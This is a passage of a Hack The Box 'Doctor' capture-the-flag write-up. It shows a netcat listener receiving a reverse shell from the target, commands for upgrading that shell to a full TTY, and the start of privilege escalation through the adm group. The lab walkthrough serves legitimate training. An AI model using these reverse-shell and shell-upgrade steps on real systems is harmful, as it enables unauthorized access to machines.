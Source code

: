 ### Executing shell.sh
![13](/assets/images/doctor/13.png)

And now when we make a request on  **/archive**, we get a connection back on netcat listening on port 9001.
```console
local@local:~/Documents/htb/boxes/doctor$ nc -nvlp 9001
Listening on [0.0.0.0] (family 2, port 9001)
Listening on 0.0.0.0 9001
Connection received on 10.129.19.165 55244
/bin/sh: 0: can't access tty; job control turned off
$ 
```

## Upgrading the shell

```console
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```

Hit `CTRL + z` to background the process.

### On local box
```console
local@local:~/Documents/htb/boxes/doctor$ stty raw -echo
```

Type `fg` to foreground the process and hit enter twice. 

### On reverse shell

```console
web@doctor:~$ export TERM=xterm
```

Now we get a proper shell with autocompletion.

# Privilege Escalation
### Checking the groups of user web
```console
web@doctor:~$ groups
web adm
```
Our current user is in `adm` group which means we can read few extra log files.
